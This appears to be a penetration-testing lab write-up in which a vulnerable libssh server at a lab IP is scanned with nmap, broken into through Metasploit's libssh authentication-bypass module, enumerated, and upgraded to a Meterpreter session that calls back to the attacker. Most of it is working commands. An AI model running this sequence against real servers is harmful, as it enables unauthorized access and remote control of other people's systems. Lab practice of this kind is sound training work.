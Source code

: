 # 🔬SSH - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SSH server](https://www.attackdefense.com/challengedetails?cid=448)
>
>  - Target IP: `192.66.211.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [libssh Exploitdb](https://www.exploit-db.com/search?q=libssh)
>  - [libssh Authentication Bypass Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/libssh_auth_bypass/)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.66.211.3
setg RHOST 192.66.211.3
workspace -a libssh
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.66.211.3
```

![db_nmap -sS -sV -O 192.66.211.3](3-metasploitassets/image-20230416142245546.png)

```bash
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
info
# Description:
#   This module exploits an authentication bypass in libssh server code 
#   where a USERAUTH_SUCCESS message is sent in place of the expected 
#   USERAUTH_REQUEST message. libssh versions 0.6.0 through 0.7.5 and 
#   0.8.0 through 0.8.3 are vulnerable. Note that this module's success 
#   depends on whether the server code can trigger the correct 
#   (shell/exec) callbacks despite only the state machine's 
#   authenticated state being set. Therefore, you may or may not get a 
#   shell if the server requires additional code paths to be followed.
options
set SPAWN_PTY true
run
sessions
sessions 3
```

![Metasploit - auxiliary/scanner/ssh/libssh_auth_bypass](3-metasploitassets/image-20230416142702051.png)

- Enumerate some information

```bash
id
cat /etc/*release
uname -r
```

![](3-metasploitassets/image-20230416142810774.png)

- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 3
set LHOST eth1
run

sessions
sessions 4
```

![shell_to_meterpreter](3-metasploitassets/image-20230416142923675.png)

------

